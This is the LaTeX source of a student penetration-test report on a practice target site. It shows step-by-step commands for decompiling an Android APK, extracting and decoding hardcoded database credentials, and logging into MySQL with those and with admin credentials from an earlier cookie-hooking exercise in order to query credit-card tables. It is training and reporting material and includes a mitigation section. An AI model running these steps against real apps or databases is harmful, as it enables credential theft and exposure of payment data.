%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
  
\title{Penetration Test - Exercise 140}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage

\section{Technical Report}

  \subsection{Finding: \emph{Android App and Database Credentials}}
  
	\subsubsection*{Severity Rating}
        Severity: High \\	   	
		\cvss(L,L,N,N,U,H,H,H,8.4)
		
  	\subsubsection*{Vulnerability Description}
  		After examining the apk file found on the site, some hidden credentials were found using jadx-gui
        which is readily available for consumer use. These credentials were then used to gain access to a mysql
        service running on the artstailor server.

  	\subsubsection*{Confirmation method}
  	First download the apk file as follows
\begin{verbatim}
wget www.artstailor.com/apps/ArtsTailorNews.apk
\end{verbatim}
    Open the application and jadx-gui and then navigate to the cache created after the application is compiled.
    Once inside the cache, run the following command to get the username and password
\begin{verbatim}
cat sources/00/000000800.java | grep -e 'b64username' -e 'b64password'
\end{verbatim}
    This will reveal the following censored credentials.
\begin{verbatim}
username: db_user_token
password: KEY022-uid...CQ==
\end{verbatim}
    Lastly, we can use these credentials to gain access to the server
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_user_token -p
KEY022-uid...CQ==
\end{verbatim}
    From previous Exercise 110, we also have some admin credentials as follows
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_admin_token -p
KEY019-8Dq...e\n
\end{verbatim}
    Using these credentials gives us access to user credit card information. 
    \subsubsection*{Mitigation or Resolution Strategy}
    To mitigate this, we can firstly avoid hardcoding any sort of credentials into the code. You should also try to use 
    secure storage solutions that provide more hardware-backed storage options for keys rather than including them in the code.
    Now that this has been exploited, make sure to also change the credentials for the db{\_}user{\_}token.

\section{Attack Narrative}
    
    \subsection{Finding Credentials}
    To get the Android App, we have to first download the apk from the site using the following command
\begin{verbatim}
wget http://www.artstailor.com/app/ArtsTailorNews.apk
\end{verbatim}
    We can then use jadx-gui from the command line and open the apk file in the application. Looking around and searching for key phrases did not reveal much for me. However, once the apk
    file is opened in the app, a new directory called 'ArtsTailorNews.apk.cache'. If we navigate to this directory, we are now 
    able to grep for more clues. Using the following grep command, we are able to get some credentials
\begin{verbatim}
grep -i 'username' -r .
\end{verbatim}
    This command shows us that inside a folder, there is some base64 encoded username and password credentials. We can find this credentials
    as follows.
\begin{verbatim}
cd ArtsTailorNews.apk.cache
cat sources/00/000000800.java | grep -e 'b64username' -e 'b64password'
output:
    String b64username = 'ZGJ...bgo=';
    String b64password = 'S0V...Qo=';
\end{verbatim}
    Further decoding these values yields the following results
\begin{verbatim}
echo 'ZGJ...bgo=' | base64 -d
username: db_user_token
echo 'S0V...Qo='
password: KEY022-uid...CQ==
\end{verbatim}
    These credentials lead me to believe that we can use them to get access to some sort of database.
    \subsection{Database entry}
    To gain access to some sort of database, the following command was run to see if there was some sort of database running on one 
    of the servers
\begin{verbatim}
nmap www.artstailor.com
\end{verbatim}
    This revealed some sort of mysql service running on port 3306. We can then use the previous credentials
    to try and gain access to the system as follows
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_user_token -p
KEY022-uid...CQ==
\end{verbatim}
    Once we had access to the mysql service, we can then peek around. Looking at the two databases did not reveal
    anything too important, but if we could gain admin access, there might be a way to get more information.
    \subsection{PCI Data}
    After some thinking, I referred back to ex110 in which we used Beefhook to capture some cookies. In the cookie we found, we found
    some credentials that were labeled as db{\_}admin{\_}token. Using the password and username as follows, we were able
    to log in with more access
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_admin_token -p
KEY019-8Dq...e\n
\end{verbatim}
    Once inside, we can then navigate to the customerdb and access some more serious PCI data.
\begin{verbatim}
show databases;
use customerdb;
show tables;
select * form ccard;
select * from people;
\end{verbatim}


\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex140/pciDataCensored} \\

    
    \subsection{MITRE ATT{\&}CK Framework TTPs}
	
	\subsubsection*{}
	\ttp(TA0006, Credential Access, T1552, Unsecured Credentials, .001, Credentials in Files)
    
	
\end{document} 
